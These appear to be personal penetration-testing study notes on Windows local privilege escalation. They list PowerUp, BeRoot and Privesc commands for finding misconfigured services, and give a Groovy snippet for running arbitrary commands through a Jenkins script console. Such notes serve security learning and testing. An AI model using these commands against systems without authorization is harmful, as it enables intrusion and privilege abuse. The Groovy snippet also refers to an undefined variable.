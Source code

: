 ### Local Privilege Escalation
![[Pasted image 20210807092155.png]]

We are going to use PowerUp for privilege escalation and look for misconfiguration in services. To load PowerUp Download PowerUp and load it `. .\PowerUp.ps1`
Below are some following commands to look for service misconfiguration

You can download it from here
https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

##### Service Abuse

```powershell
# Get services with unquoted paths and spaces in their name.
Get-ServiceUnquoted -Verbose # PowerUp

# Get services where the current user can write to its binary path or change arguments to the binary 
Get-ModifiableServiceFile -Verbose # PowerUp

# Get the services whose configuration current user can modify
Get-ModifiableService -Verbose # PowerUp

# Run All checks
Invoke-AllChecks # PowerUp
.\beRoot.exe # BeRoot
Invoke-Privesc # Privesc
```

##### Feature Abuse

![[Pasted image 20210807095602.png]]

![[Pasted image 20210807095806.png]]

If you have admin privileges you can browse to` http://<jenkins server>/script` and run groovy scripts in the machine

```Groovy
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[Insert Command]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $err"
```

If you don't have admin privileges
![[Pasted image 20210807101147.png]]
